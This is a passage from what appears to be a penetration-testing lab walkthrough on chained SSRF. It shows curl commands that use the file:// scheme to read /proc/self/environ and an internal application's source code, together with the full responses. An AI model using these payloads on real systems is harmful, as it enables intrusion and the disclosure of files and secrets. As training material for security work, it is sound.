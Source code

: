 ```shell-session
 </a></body></html>
```

Let us make a quick recap of what we have achieved:

- Issue requests on behalf of ubuntu-web to internal.app.local
- Reach a web application listening on port 5000 inside internal.app.local chaining two SSRF vulnerabilities
- Disclose a list of files via the internal application

Let us issue a request to disclose `/proc/self/environ` file, where the current path should be present under the `PWD` environment variable.

#### cURL - Interacting with the Target

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 584
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 16:52:20 GMT

<html><body><h1>Resource: file:///proc/self/environ</h1><a>HOSTNAME=18f236843662PYTHON_VERSION=3.8.12PWD=/appPORT=80PYTHON_SETUPTOOLS_VERSION=57.5.0HOME=/rootLANG=C.UTF-8GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568SHLVL=0PYTHON_PIP_VERSION=21.2.4PYTHON_GET_PIP_SHA256=01249aa3e58ffb3e1686b7141b4e9aac4d398ef4ac3012ed9dff8dd9f685ffe0PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/d781367b97acf0ece7e9e304bf281e99b618bf10/public/get-pip.pyPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin_=/usr/local/bin/python3</a></body></html>
```

Now we know that the current path is `/app`, and we have a list of interesting files. Let's disclose the `internal_local.py` file as follows.

#### Retrieving a local file through the target application - File Schema

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 771
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:40:28 GMT

<html><body><h1>Resource: file:///app/internal_local.py</h1><a>import os
from flask import *
import urllib
import subprocess

basedir = os.path.abspath(os.path.dirname(__file__))

app = Flask(__name__)

def run_command(command):
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    stdout = p.stdout.read()
    stderr = p.stderr.read()
    result = stdout.decode() + " " + stderr.decode()
```